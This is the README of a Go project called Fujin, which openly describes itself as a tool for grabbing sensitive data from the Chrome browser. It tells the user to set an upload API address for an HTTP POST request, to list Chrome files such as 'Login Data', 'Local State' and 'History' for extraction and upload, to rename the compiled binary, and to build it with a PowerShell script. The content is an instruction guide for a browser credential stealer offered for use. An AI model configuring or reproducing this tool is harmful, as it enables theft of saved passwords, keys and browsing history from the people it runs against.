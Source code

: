 # Fujin Project

The Fujin project is a Go project which aims to grab sensitive data from chrome browser.

## Configuration
Before you can run the project, you need to perform the following steps:

1. Open the `main.go` file and look for the following line and update it with your api address:
    ```go
    req, err := http.NewRequest(http.MethodPost, "http://localhost:8080/upload", &requestBody)
    ```
2. (Optionnal) Also, if you want to add more files to extract and to be uploaded to the API, update the following line:
    ```go
    filenames := []string{"Local State", "Login Data", "History"}
    ```
3. Open the `build.ps1` file and look for the following line:
    ```powershell
    $BINARY_NAME="fujin.exe"
    ```
    Here, you can change the name of the binary file that will be created when you build the project. For example, if you want the file to be called `seishin.exe`, change the line to:
    ```powershell
    $BINARY_NAME="seishin.exe"
    ```

## Compilation

Once you've completed the setup, you can compile and run the project. To do this, open a PowerShell terminal then, run the following command:

```powershell
.\build.ps1
```
